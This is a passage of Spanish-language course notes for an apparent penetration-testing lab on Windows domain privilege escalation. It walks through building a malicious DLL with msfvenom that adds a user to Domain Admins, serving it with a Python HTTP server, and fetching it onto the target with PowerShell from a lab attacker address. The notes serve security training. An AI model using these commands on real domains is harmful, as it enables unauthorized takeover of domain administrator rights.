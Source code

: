 ## Generar la DLL maliciosa con `msfvenom`

Ejemplo del curso:

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

* `msfvenom` — generador de payloads de Metasploit.
* `-p windows/x64/exec` — payload: ejecutar comando en Windows x64.
* `cmd='...'` — el comando que el payload ejecutará: en este caso `net group "domain admins" netadm /add /domain` añade el usuario `netadm` al grupo Domain Admins en el dominio (el usuario debe existir).
* `/add` indica añadir el usuario el grupo especificado.
* `/domain` Le dice a `net group` que la operación se haga en el controlador de dominio, no en la máquina local.
* `-f dll` — formato de salida: DLL.
* `-o adduser.dll` — archivo de salida.

Salida del ejemplo incluye mensajes informativos como tamaño del payload y confirmación de fichero guardado.

---

## Servir el archivo con un servidor HTTP simple

Comando mostrado:

```bash
python3 -m http.server 7777
```

* `python3 -m http.server 7777` — arranca un servidor HTTP estático en el puerto `7777` sirviendo el directorio actual.
* Útil para transferir `adduser.dll` al host objetivo desde la máquina atacante.

Salida típica muestra la IP que hace la petición y el archivo servido (ej. `GET /adduser.dll` 200).

---

## Descargar el fichero desde el target

Ejemplo en PowerShell:

```powershell
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

* `wget` en PowerShell es alias de `Invoke-WebRequest` o `curl` dependiendo de la versión.
* `-outfile` especifica el nombre local donde guardar el fichero descargado.

---

## Intento como usuario no privilegiado — error de acceso
